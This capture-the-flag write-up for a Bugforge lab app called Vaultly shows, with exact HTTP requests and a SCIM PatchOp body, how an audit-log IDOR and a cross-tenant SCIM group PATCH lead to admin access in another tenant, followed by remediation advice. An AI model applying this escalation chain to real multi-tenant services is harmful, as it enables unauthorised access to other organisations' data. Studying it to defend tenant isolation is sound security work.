

# Vaultly — vaultly-014 — Directory Sync only lists groups from your organisation. Does the audit log respect that same boundary—and what could another organisation’s events reveal?

## Challenge Overview

Vaultly is a multi-tenant document vault application. This challenge demonstrates how insufficient tenant-level authorization in SCIM and audit-log endpoints can expose another tenant's data and allow cross-tenant privilege escalation.

> Run these steps only in the authorized Bugforge security sandbox.

---

## 1. Initial Reconnaissance

Log in as the Acme owner and inspect the dashboard and Settings pages.

The dashboard shows the organization switcher and the current role. In Settings, inspect the Audit Log and Directory Sync (SCIM) sections.

### Create a SCIM provisioning token

In Directory Sync, create a provisioning token. Keep the token available for the requests below.

The SCIM service exposes:

- Base URL: `/scim/v2`
- Users: `/scim/v2/Users`
- Groups: `/scim/v2/Groups`
- Service Provider Config: `/scim/v2/ServiceProviderConfig`

The ServiceProviderConfig response indicates that PATCH is supported.

---

## 2. Discover the Vaultly HQ Tenant

Open the Acme IT & Security vault (`/vaults/7`) and read:

`directory-sync-administration.md`

The document identifies the Vaultly HQ managing tenant:

- Tenant organization ID: `7f6318457d9fcf3bef6485c621f017c1`
- Operations contact: `ops@vaultly.internal`

Treat this organization ID as internal information discovered from the document.

---

## 3. Cross-Tenant Audit Log Access

The Audit Log page makes a request similar to:

```http
GET /api/audit/events?orgId=b92e92068e58e2170444094dddc8956d
```

The ID above is Acme Corp's organization ID.

Change the `orgId` parameter to the Vaultly HQ organization ID:

```http
GET /api/audit/events?orgId=7f6318457d9fcf3bef6485c621f017c1
```

Use the authenticated session in Burp Repeater.

### Observation

The server returns Vaultly HQ audit events, including directory-sync activity and the HQ Administrators group identifier.

**Finding:** The audit endpoint accepts a tenant ID supplied by the client without enforcing the caller's tenant boundary.

---

## 4. Read the Vaultly HQ SCIM Administrators Group

From the HQ audit events, identify the HQ Administrators group ID:

`5c3a150e41e8f5867599c73ba7c94a6c`

Use the Acme SCIM provisioning token to request the group:

```http
GET /scim/v2/Groups/5c3a150e41e8f5867599c73ba7c94a6c
Authorization: Bearer <ACME_SCIM_TOKEN>
Accept: application/scim+json
```

### Observation

The request returns HTTP 200 and the Vaultly HQ Administrators group, including its existing member:

`ops@vaultly.internal`

**Finding:** The Acme SCIM token can read a group belonging to Vaultly HQ.

---

## 5. Add the Acme Owner to HQ Administrators

SCIM PATCH operations use the PatchOp schema. The following request adds the Acme owner user ID to the HQ Administrators group.

**Target group:** `5c3a150e41e8f5867599c73ba7c94a6c`  
**Acme owner user ID:** `425e323f2751b48eeebfd3009351ec52`

```http
PATCH /scim/v2/Groups/5c3a150e41e8f5867599c73ba7c94a6c
Authorization: Bearer <ACME_SCIM_TOKEN>
Content-Type: application/scim+json
Accept: application/scim+json
```

Request body:

```json
{
  "schemas": [
    "urn:ietf:params:scim:api:messages:2.0:PatchOp"
  ],
  "Operations": [
    {
      "op": "add",
      "path": "members",
      "value": [
        {
          "value": "425e323f2751b48eeebfd3009351ec52"
        }
      ]
    }
  ]
}
```

### Observation

The server returns HTTP 200. The response group membership contains:

- `owner@acme.test`
- `ops@vaultly.internal`

**Finding:** The Acme SCIM token successfully modifies a Vaultly HQ administrative group. This confirms cross-tenant write access.

---

## 6. Switch Organization and Verify Privilege Escalation

Return to `/dashboard`.

Use the organization selector:

1. Select **Vaultly HQ**.
2. Click **Switch**.
3. Observe the refreshed dashboard.

The dashboard displays:

- Organization: **Vaultly HQ**
- Your role: **admin**
- Operations · Break-glass recovery link: `/hq`

This confirms that the group modification resulted in effective administrative access in Vaultly HQ.

---

## 7. Retrieve the Challenge Flag

Open:

`https://lab-1793977173124-5vj4mo.labs-app.bugforge.io/hq`

The HQ Operations page exposes the break-glass recovery key.

The page also indicates that the recovery key is available programmatically at:

```http
GET /api/hq/recovery
```

### Flag

```text
bug{2g2rP7T51rWNyibpOMXG2QxWoVTckNsP}
```

---

## Complete Exploit Chain



### Exploit Flow Summary

1. **Initial Access:** Authenticate as `owner@acme.test` in Acme Corp.
2. **SCIM Setup:** Create an Acme SCIM provisioning token.
3. **Tenant Discovery:** Obtain the Vaultly HQ organization ID from the internal IT & Security document.
4. **Audit Log IDOR:** Modify the `orgId` parameter to retrieve Vaultly HQ audit events.
5. **Group Enumeration:** Extract the HQ Administrators group ID from audit events.
6. **SCIM BOLA:** Read the HQ Administrators group using the Acme SCIM token.
7. **Cross-Tenant Write:** PATCH the HQ Administrators group to add the Acme owner.
8. **Privilege Escalation:** Switch to Vaultly HQ and verify the `admin` role.
9. **Sensitive Resource Access:** Open `/hq` to access the break-glass recovery console.
10. **Flag Retrieval:** Obtain the challenge flag from the recovery key page.

### Result

- Cross-tenant audit log disclosure
- Cross-tenant SCIM resource read
- Cross-tenant SCIM group modification
- Effective administrative privilege escalation
- Break-glass recovery credential exposure

## Vulnerability Summary

| Finding | Evidence |
|---|---|
| Cross-tenant audit disclosure | HQ audit events returned when Acme owner supplied HQ `orgId` |
| SCIM BOLA / IDOR | Acme SCIM token read HQ Administrators group |
| Cross-tenant SCIM write | Acme SCIM token added Acme owner to HQ Administrators |
| Privilege escalation | Dashboard showed `admin` role after switching to HQ |
| Sensitive credential exposure | HQ break-glass recovery page returned the flag |

### Root Cause

The SCIM API appears to authenticate the provisioning token but does not adequately enforce tenant ownership for the requested resource. The audit endpoint similarly trusts a client-controlled organization ID.

The application therefore fails to enforce tenant isolation at the object authorization layer.

### Recommended Remediation

- Bind each SCIM token to exactly one organization.
- Derive tenant scope from the authenticated token/server-side context rather than trusting client-supplied IDs.
- Verify that every SCIM User and Group belongs to the token's tenant before GET, PATCH, or other operations.
- Enforce tenant authorization on audit-log queries; do not trust arbitrary `orgId` values.
- Add tests for cross-tenant GET and PATCH requests.
- Log and alert on cross-tenant authorization failures and administrative group changes.
- Rotate/revoke the test provisioning token after the exercise.

---

## Lessons Learned

- Authentication does not replace authorization.
- SCIM resource IDs must not bypass tenant boundaries.
- A successful cross-tenant PATCH can have real authorization impact.
- Verify effective privileges after modifying a role-bearing group.
- Preserve request and response evidence for each step.